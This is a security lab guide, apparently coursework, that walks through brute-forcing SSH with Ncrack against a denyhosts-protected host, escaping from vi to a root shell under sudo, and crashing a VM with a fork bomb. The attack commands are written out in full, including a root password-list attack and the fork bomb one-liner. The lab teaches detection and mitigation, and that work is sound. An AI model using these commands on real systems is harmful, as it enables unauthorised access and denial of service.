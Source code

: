 # **Lab 07:** Analyze and Differentiate Types of Attacks and Mitigations Techniques

## **Bruteforcing SSH**

### **Demostrate Ncrack Against denyhosts**

**From Target Machine**
- Open Terminal
- Verify that the SSH service is running
```
~$ ps -eaf | grep -v grep | grep sshd
```
- Verify that the service **denyhosts** is not running
```
~$ service denyhosts status
```
- Based on the denyhosts.conf file, check to see where it places denied hosts.
```
~$ sudo grep HOSTS_DENY /etc/denyhosts.conf | grep -v "#"
```
**From Attacking Machine**
- Open Terminal
- Test SSH connection to the target system
```
~$ ssh name@ipaddress "uptime"
```
**From Target Machine**
- Open Terminal
- Grep the log entry recorded from the SSH connection that was initiated by the attacker.
```
~$ grep “Accepted password” /var/log/auth.log | grep “Attacker'sIP”
```
**From Attacking Machine**
- Open Terminal
- Initiate the Ncrack tool against target's SSH service, using a predefined password list.
```
~$ ncrack –v Target's IP -- user root –P /tmp/wordlists/passlist –p ssh
```
**From Target Machine**
- Open Terminal
- Start the denyhosts script
```
~$ sudo service denyhosts start
```
**From Attacking Machine**
- Open Terminal
- Attempt to SSH to the target's system with the credentials gained from the Ncrack tool
```
~$ ssh name@Target'sIP
```
- Might notice now how the connection is being automatically closed by the remote system.
- If so, determine if the IP address is being blocked or if SSH traffic is being blocked.
```
~$ telnet Target'sIP 22
```
- Noticing the output, we can determine that the IP address is being blocked since the remote host is still listening on port 22

**From Target Machine**
- Open Terminal
- View the contents of the **hosts.denyfile**
- Notice that the file is populated with the IPaddress belonging to the attacking system. 
- It can be concluded that the denyhosts service has blocked Attacker’s IP address based on its attempt to force itself an SSH connection with the remote system.
- Analyze the auth.log file for failed password attempts (case sensitive).
```
~$ grep “Failed password” /var/log/auth.log | grep “203.0.113.2”
```
- Notice the failed attempts created by the Ncrack application.

### **Unblock Kali**

**From Target Machine**
- To remove the blocked entry from the hosts.deny file, temporarily stop the rsyslogservice.
```
~$ sudo service rsyslog stop
```
- Stop the denyhosts service.
```
~$ sudo service denyhosts stop
```
- Edit the hosts.deny file by removing the Attacker's IP entry.
```
~$ sudo nano /etc/hosts.deny
```
- Use your arrows keys to navigate to the IP entry and press Backspace to erase the entire line: “sshd: Attacker's IP”
- Once modified, press CTRL+X to exit.
- When asked to save modified buffer, press the Ykey for Yes.
- Press Enter to confirm the filename as /etc/hosts.deny

## **Dangerous Linux Commands**

### **Exploiting sudo with vi Editor**

- Escalate to root privileges.**
```
~$ sudo su
```
- Create and edit the hacksrus.txt file**
```
~$ vi hacksrus.txt
```
- Once in the **vi** editor, type the command below.
```
:!/bin/sh
```
- The input is recorded at the bottom of the **vi** editor.
- Press Enter.
- After the command is entered, you’ll be presented with the ‘ # ‘ prompt.
- Type ***id*** followed by pressing the Enter key.
- This command will print the current user
- Notice that you are running a shell as root.
- Type whoami to confirm you are the user root. Press Enter.
- Type exitfollowed by pressing the Enter key to close the shell.
- Press the Enterkey once more.
- Notice the prompt returns to the **vi** editor, type the command below followed by pressing the Enter key to quit.
```
:q!
```
- While in the terminal, type the command below to analyze the log file showing privileges being escalated to root.
```
~$ grep sudo /var/log/auth.log | tail -l
```
## **Demonstrate DOS Attack**
### Warning: Do not attempt this section of the lab on a personal computer.  It will cause serious harm to a machine, resulting in an inoperable state.

### **From Virtual Machine**
- Monitor live CPU and memory usage within a terminal window. Enter:
```
~$ htop
```
- Open a new terminal window
- Make sure to arrange the display of the new terminal window where you can see both terminals side-by-side.
- In the new terminal window, type the command below to initiate a “fork bomb” attack on the VM. 
```
~$ :(){ :|: & };:
```
- Watch closely at the terminal window with **htop** running.
- After 3-4 minutes, notice how the CPU usage spikes, reaching almost 100% while both memory and swap memory are spiking as well.
- What is happening here is that the Virtual Machine is running out of memory by forking a process infinitely.
- In other words, it is making multiple copies of itself that is setting off a chain reaction resulting in quickly exhausting the system’s resources.
- Because the system is overwhelmed, the **htop** application may be slow and unresponsive.
- Keep an eye on the Uptime value and see whether it is incrementing. If it is not, it is unresponsive. You may proceed to the next step.
- When you are finished analyzing the “fork bomb” operation, shutdown the Virtual Machine.